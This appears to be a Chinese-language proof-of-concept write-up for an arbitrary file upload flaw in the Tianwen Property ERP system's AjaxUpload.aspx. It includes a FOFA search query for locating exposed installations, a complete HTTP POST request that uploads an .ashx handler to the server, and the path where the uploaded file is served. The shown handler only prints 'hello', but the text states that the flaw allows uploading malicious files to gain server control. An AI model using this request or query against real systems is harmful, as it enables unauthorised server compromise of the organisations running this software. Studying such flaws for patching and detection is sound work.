 # 天问物业ERP系统AjaxUpload.aspx前台任意文件上传漏洞

# 一、漏洞简介
成都天问互联科技有限公司以软件开发和技术服务为基础，建立物业ERP应用系统，向物管公司提供旨在降低成本、保障品质、提升效能为目标的智慧物管整体解决方案。天问物业ERP系统AjaxUpload.aspx存在文件上传漏洞，攻击者可以利用漏洞上传恶意文件获取服务器权限。

# 二、影响版本
+ 天问物业ERP系统

# 三、资产测绘
+ fofa`body="国家版权局软著登字第1205328号"`
+ 登录页面

![1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25.png](./img/d6vB92k0Q8TnoVUk/1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25-035158.png)

# 四、漏洞复现
```plain
POST /HM/M_Main/AjaxUpload.aspx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 487
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="UpFileData"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--
```

![1722408255216-15f7f99d-8425-464c-a984-65cd6460fb92.png](./img/d6vB92k0Q8TnoVUk/1722408255216-15f7f99d-8425-464c-a984-65cd6460fb92-880167.png)

上传文件位置

```plain
http://xx.xx.xx.xx/HM/M_Main/UploadFiles/PersonAdjunct/2023/08/202382894343759.ashx
```

![1693187101786-501c2a90-3793-4c83-bfab-d53d25af370e.png](./img/d6vB92k0Q8TnoVUk/1693187101786-501c2a90-3793-4c83-bfab-d53d25af370e-114616.png)



> 更新: 2024-08-12 17:21:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hev6npn6s7eab8t2>